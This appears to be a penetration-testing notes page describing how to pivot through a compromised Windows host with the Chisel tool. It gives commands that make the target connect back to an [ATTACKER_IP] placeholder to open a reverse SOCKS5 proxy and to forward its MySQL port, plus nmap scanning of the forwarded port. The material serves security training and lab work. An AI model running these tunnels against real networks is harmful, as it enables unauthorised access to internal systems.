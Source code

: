 ```yaml
---
description: >-
  Example scenario for pivoting using Chisel. Note, this example assumes that
  the attacking system is Linux and the target system is Windows.
---
```


# Using Chisel to Pivot

### Setting up a SOCKS Proxy with Chisel

1. Download the [latest Chisel binaries](https://github.com/jpillora/chisel)
   * Note, you will need one for your attacking system and one to be uploaded to the target system.
2. On the attacking system: `./chisel server --socks5 --reverse -p 8000`
3. On the target system: `.\chisel.exe client [ATTACKER_IP]:8000 R:socks`
4. Observe on the attacking system that the SOCKS5 connection has been successfully established.

### Forwarding One Port with Chise;

On the attacking system:

```bash
./chisel server 9000 -reverse
```

On the target system:&#x20;

```bash
.\chisel client [ATTACKER_IP]:9000 R:3306:127.0.0.1:3306
```

### Verification

The easiest way to verify if your `Chisel` connection was successful is to run the following command:&#x20;

```bash
ss -lnpt | grep 3306
```

### Interaction

Ensure to remember that you will be interacting with `localhost` after forwarding a port. For example, by running `nmap -sC -sV -p3306 -n localhost`

### References

* [Pivoting with Chisel](https://ap3x.github.io/posts/pivoting-with-chisel/)
